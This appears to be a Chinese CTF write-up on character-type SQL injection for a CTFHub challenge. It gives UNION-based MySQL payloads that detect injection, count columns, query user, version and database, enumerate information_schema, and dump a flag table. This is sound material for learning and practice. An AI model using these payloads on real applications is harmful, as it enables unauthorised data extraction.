 ```yaml
---
title: ctfhub字符型注入
categories:
      - ctfhub
      - sql注入
---
```

# 一、判断是否存在注入

## 1、加单引号

此时sql 语句为：select * from table where name='admin''，由于加单引号后变成三个单引号，则无法执行，程序会报错；

## 2、加  ' and 1=1

此时sql 语句为：select * from table where name='admin' and 1=1' ，也无法进行注入

还需要通过注释符号将其绕过；Mysql 有三种常用注释符：

1. --
2. /**/
3. #

注意：--注释符后边有一个空格

因此，构造语句为：select * from table where name ='admin' and 1=1 -- ' 可成功执行返回结果正确；

## 3、加 'and 1=2 --

此时sql语句为：select * from table where name='admin' and 1=2 -- ' 则会报错

如果满足以上三点，可以判断该url为字符型注入。

服务端的sql语句为：select 列 from 数据库.表 where name='$name'

# 二、判断select语句中有几列

```sql
# 对字段进行排序，如果出现报错，则没有这个列
1' order by 3 --
```

# 三、判断显示的信息是第几列的信息

```sql
1' union select 1,2 -- '
```


# 四、利用函数来收集数据库信息

查询sql自带的函数来确定当前用户，当前数据库等信息。

数据库函数有以下：

1. 用户：user()
2. 当前数据库：database()
3. 数据库版本：version()
4. @@hostname （用户）
5. @@datadir   (数据库在文件的位置)
6. @@version  （版本)
7. @@version_compile_OS  (操作系统版本)


```sql
# 查询账户类型
1' union select 1,user() -- '

# 查询数据库类型
1' union select 1,version() -- '

# 查询当前数据库名称
1' union select 1,database() -- '
```


# 五、通过union查询数据库

```sql
# 获取所有数据库名称
1' union select 1,group_concat(schema_name) from information_schema.schemata -- '
# 查询数据库中有多少个表
1' union select table_schema,count(*) from information_schema.tables -- '
# 查询数据库information_schema中的所有表名
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='informatioin_schema' -- '
# 查询指定数据库中的表名
1' union select table_schema, group_concat(table_name) from information_schema.tables where table_schema='sqli' -- '

# 查询指定数据库指定表中的列名
# 此次，通过limit逐个获取列名， limit 0,1，修改limit中第一个数字获取其他列名，如获取第二个列名：limit 1,1。
1' union select table_name,(select column_name from information_schema.columns where table_schema='sqli' and table_name='flag' limit 0,1) -- '

# 查询指定数据库指定表的列的内容
1' union select 1,group_concat(flag) from sqli.flag -- '
```
